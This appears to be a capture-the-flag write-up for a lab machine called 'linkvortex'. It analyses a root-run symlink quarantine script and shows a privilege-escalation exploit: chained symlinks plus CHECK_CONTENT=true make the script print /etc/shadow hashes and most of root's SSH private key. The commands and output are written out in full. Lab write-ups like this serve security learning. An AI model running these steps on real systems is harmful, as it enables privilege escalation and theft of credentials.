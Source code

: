 This code is primarily intended to protect the system by quarantining or removing potentially dangerous or invalid symbolic links. However, there is a problem here

Manipulating the `CHECK_CONTENT` environment variable
The script uses `CHECK_CONTENT` without checking its safety.

The variable is not explicitly set to true/false, which can lead to unwanted execution if an attacker changes the value of the variable.

The script does handle symbolic links, but if the system allows regular users to create symbolic links that point to sensitive or executable files, an attacker can exploit this.

The `$QUAR_DIR` variable is fixed to `/var/quarantined`. However, if a symbolic link in `$QUAR_DIR` points elsewhere, an attacker could move files from a critical directory into `/var/quarantined` and the contents would be accessible to a normal user.
#### <span style="color: #ebe134;">Exploit</span>

##### Using CHECK_CONTENT to read sensitive content

The variable `CHECK_CONTENT` is checked by the script without being validated safely. Although it is not executed directly in the script, we can still abuse it to display sensitive file content. I will first assign it to a .txt file and then assign it to a .png, try with the `/etc/shadow` file.

```zsh
bob@linkvortex:~$ ln -s /etc/shadow shadow.txt
bob@linkvortex:~$ ln -s /home/bob/shadow.txt shadow.png
bob@linkvortex:~$ export CHECK_CONTENT=true
sudo /usr/bin/bash /opt/ghost/clean_symlink.sh shadow.png
Link found [ shadow.png ] , moving it to quarantine
Content:
root:$y$j9T$C3zg87gHwrCXO0vl4igIh/$iisf9sVwilKAi7mI5p1FqQslJWM9t2.YUWznIPC/XIA:19814:0:99999:7:::

[...]

bob:$6$rounds=656000$4p3mw8hAd9ir.25f$ocGm9nW1TM2AB8Z.l0K.hi43bOrm3oxQsaKFACMoS2UL.tIXxSW3u/xsClrvkEhP5s.GUpdIvCX3qRtppDV8r.:19814:0:99999:7:::
dnsmasq:*:19814:0:99999:7:::
_laurel:!:20057::::::
bob@linkvortex:~$ 
```

The rest is simply to get the ssh key of the `root` user

```zsh
bob@linkvortex:~$ ln -s /root/.ssh/id_rsa id_rsa.txt
bob@linkvortex:~$ ln -s /home/bob/id_rsa.txt ssh.png
bob@linkvortex:~$ export CHECK_CONTENT=true
bob@linkvortex:~$ sudo /usr/bin/bash /opt/ghost/clean_symlink.sh ssh.png
Link found [ ssh.png ] , moving it to quarantine
Content:
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAmpHVhV11MW7eGt9WeJ23rVuqlWnMpF+FclWYwp4SACcAilZdOF8T
q2egYfeMmgI9IoM0DdyDKS4vG+lIoWoJEfZf+cVwaZIzTZwKm7ECbF2Oy+u2SD+X7lG9A6
V1xkmWhQWEvCiI22UjIoFkI0oOfDrm6ZQTyZF99AqBVcwGCjEA67eEKt/5oejN5YgL7Ipu
6sKpMThUctYpWnzAc4yBN/mavhY7v5+TEV0FzPYZJ2spoeB3OGBcVNzSL41ctOiqGVZ7yX
TQ6pQUZxR4zqueIZ7yHVsw5j0eeqlF8OvHT81wbS5ozJBgtjxySWrRkkKAcY11tkTln6NK
CssRzP1r9kbmgHswClErHLL/CaBb/04g65A0xESAt5H1wuSXgmipZT8Mq54lZ4ZNMgPi53
jzZbaHGHACGxLgrBK5u4mF3vLfSG206ilAgU1sUETdkVz8wYuQb2S4Ct0AT14obmje7oqS
0cBqVEY8/m6olYaf/U8dwE/w9beosH6T7arEUwnhAAAFiDyG/Tk8hv05AAAAB3NzaC1yc2
......................................................................
......................................................................
......................................................................
VRdoXs4Iz6xMzJwqSWze+NchBlkUigBZdfcQMkIOxzj4N+mWEHru5GKYRDwL/sSxQy0tJ4
MXXgHw/58xyOE82E8n/SctmyVnHOdxAWldJeycATNJLnd0h3LnNM24vR4GvQVQ4b8EAJjj
rF3BlPov1MoK2/X3qdlwiKxFKYB4tFtugqcuXz54bkKLtLAMf9CszzVBxQqDvqLU9NAAAA
wG5DcRVnEPzKTCXAA6lNcQbIqBNyGlT0Wx0eaZ/i6oariiIm3630t2+dzohFCwh2eXS8nZ
```